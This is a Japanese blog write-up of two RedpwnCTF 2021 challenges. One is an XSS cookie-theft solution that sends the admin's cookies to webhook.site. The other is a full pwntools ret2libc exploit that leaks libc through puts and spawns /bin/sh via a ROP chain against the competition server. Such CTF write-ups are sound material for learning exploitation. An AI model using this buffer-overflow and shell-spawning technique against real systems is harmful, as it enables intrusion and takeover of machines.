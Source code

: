 ```yaml
---
title: "RedpwnCTF 2021 Writeup"
date: 2021-07-17T09:00:00+09:00
lastmod: 2021-07-17T09:00:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF"]
categories: ["CTF"]
author: ""
---
```

<img src="https://captureamerica.github.io/writeups/img/green_bar.png" alt="green_bar.png">
<img src="https://captureamerica.github.io/writeups/img/10_Nature_Themed_Icons_Cute_Earth_Icon.png" alt="Save The Earth!"> <b><font color="teal">Save The Earth! - 地球環境を守ろう！</font></b> <img src="https://captureamerica.github.io/writeups/img/10_Nature_Themed_Icons_Cute_Earth_Icon.png" alt="Save The Earth!">
<img src="https://captureamerica.github.io/writeups/img/green_bar.png" alt="green_bar.png">

{{% right %}}
<a href="https://translate.google.com/translate?hl=en&sl=ja&tl=en&u=https%3A%2F%2Fcaptureamerica.github.io%2Fwriteups%2Fpost%2Fredpwnctf_2021%2F">
<img src="https://captureamerica.github.io/writeups/img/En.png" alt="English">
</a>
{{% /right %}}

URL: [https://2021.redpwn.net/](https://2021.redpwn.net/)
<br /><br />

1146点を獲得し、最終順位は317位でした。<br />

<img src="https://captureamerica.github.io/writeups/img/redpwnctf_2021_score.png" alt="redpwnctf_2021_score.png">

解いたチャレンジ<br />

<img src="https://captureamerica.github.io/writeups/img/redpwnctf_2021_solves1.png" alt="redpwnctf_2021_solves1.png">

<br /><br />

最近たまに見るこの [rCTF](https://rctf.redpwn.net/) という Platform は redpwn CTF team が作ったものみたいですね。

<br /><br />
自分の過去のブログを見たときに、[RedpwnCTF 2019 の Writeup](https://captureamerica.github.io/writeups/post/redpwnctf_2019/) は書いてたけど RedpwnCTF 2020 の Writeup が無かったので、去年はイベントを見逃したのかな？と思ったら、パソコン上にメモは残っていたのでいちおう参加はしてたみたいです。簡単なのしか解いていなかったからブログを書かなかったのかな。

そして、今年も簡単なのしか解いていないですが、とりあえず少しだけ記録として残しておきます。




<br /><br />
<br /><br />
## [Web]: pastebin-1 (about 100 points)
- - -
### Challenge
> Ah, the classic pastebin. Can you get the admin's cookies?
<br /><br />
pastebin-1.mc.ax  (pastebinへのリンク)
<br /><br />
Admin bot  (admin botへのリンク)

Attachment:

- main.rs

<br>

### Solution
[https://webhook.site/](https://webhook.site/) を使って解きました。

1. webhook.site で待受けを開始してアドレスを取得。

2. 以下をPastebinのところにPost。<br>
<img src="https://captureamerica.github.io/writeups/img/redpwnctf_2021_pastebin1.png" alt="redpwnctf_2021_pastebin1.png">

3. admin-botから、以下 (PastebinにPostしたときに得られるアドレス) へアクセス。<br>
<img src="https://captureamerica.github.io/writeups/img/redpwnctf_2021_pastebin2.png" alt="redpwnctf_2021_pastebin2.png">

4. webhook.site で受信したデータを確認。<br>
<img src="https://captureamerica.github.io/writeups/img/redpwnctf_2021_pastebin3.png" alt="redpwnctf_2021_pastebin3.png">

<br />

Flag: `flag{d1dn7_n33d_70_b3_1n_ru57}`



<br /><br />
<br /><br />
## [Pwn]: ret2the-unknown (about 100 points)
- - -
### Challenge
> hey, my company sponsored map doesn't show any location named "libc"!
<br /><br />
nc mc.ax 31568

Attachment:

- libc-2.28.so
- ld-2.28.so
- ret2the-unknown (ELF 64bit)
- ret2the-unknown.c

ret2the-unknown.c の中身：

```C
#include <stdio.h>
#include <string.h>

int main(void)
{
  char your_reassuring_and_comforting_we_will_arrive_safely_in_libc[32];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("that board meeting was a *smashing* success! rob loved the challenge!");
  puts("in fact, he loved it so much he sponsored me a business trip to this place called 'libc'...");
  puts("where is this place? can you help me get there safely?");

  // please i cant afford the medical bills if we crash and segfault
  gets(your_reassuring_and_comforting_we_will_arrive_safely_in_libc);

  puts("phew, good to know. shoot! i forgot!");
  printf("rob said i'd need this to get there: %llx\n", printf);
  puts("good luck!");
}
```

<br>

### Solution
以下、checksecの出力結果です。

<pre>
$ checksec ret2the-unknown
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
</pre>

<br>

以下、ほとんど今までのコードの使いまわしです。。。

{{< highlight python "linenos=table,hl_lines=" >}}
#!/usr/bin/env python
# -*- coding:utf-8 -*-

from pwn import *
context(os='linux', arch='amd64')
context.log_level = 'critical'

elf = ELF('./ret2the-unknown')
context.binary = elf

s = remote('mc.ax', 31568)

bufsize = 32 + 8
rop = ROP(elf)
rop.puts(elf.got.puts)
rop.main()
print(rop.dump())
s.sendlineafter("safely?\n", b'A'*bufsize + rop.chain())
s.recvuntil('luck!\n')
puts = u64(s.recvline().rstrip().ljust(8, b"\x00"))
print('puts: %x' % puts)
libc = ELF('./libc-2.28.so')
libc.address = puts - libc.symbols.puts

rop = ROP(libc)
rop.execv(next(libc.search(b'/bin/sh')), 0)
print(rop.dump())
s.sendlineafter("safely?\n", b'A'*bufsize + rop.chain())
s.recvuntil('luck!\n')
s.interactive()	
{{< / highlight >}}

<br />

Flag: `flag{rob-is-proud-of-me-for-exploring-the-unknown-but-i-still-cant-afford-housing}`




<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />
